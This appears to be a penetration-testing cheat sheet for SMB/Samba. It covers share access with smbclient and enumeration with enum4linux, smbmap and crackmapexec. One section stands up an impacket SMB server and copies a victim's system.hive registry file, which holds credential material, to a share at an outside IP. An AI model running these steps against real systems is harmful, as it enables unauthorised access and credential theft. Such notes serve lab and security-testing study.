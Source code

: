 # SMB
***Samba***
Default ports : ***139*** /***445***  

## SMBClient CheatSheet
```bash 
smbclient \\\\<IP>\\<SHARE> 						# Access as guest/anonymous
smblcient \\\\<IP>\\<SHARE>
smbclient \\\\<IP>\\<SHARE> --user <USER> 		# Access as username
smbclient \\\\<IP>\\<SHARE> --user <USER> --password <PASS>
smbclient -L \\\\<IP>\\<SHARE> --user username 	# List shares

# In the smb prompt
more file.txt
mget file.txt
dir
```

## Share files
This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. 
```bash
mkdir share
python3 /opt/impacket/examples/smbserver.py -smb2support -username USERNAME -password PASSWORD public share
```

**Upload files (from the remote machine to the local share)**
```
copy .\system.hive \\10.11.3.225\public\
```
## Enum4Linux

```bash
enum4linux <IP> 		
enum4linux <IP> -u <USER> -p <PASS>	
```

## SMBMap

``` bash
smbmap -H <IP> -u "username" -p "password"
```

## CrackMapExec
```bash
crackmapexec smb <IP> -u 'username' -p 'password' --shares
```


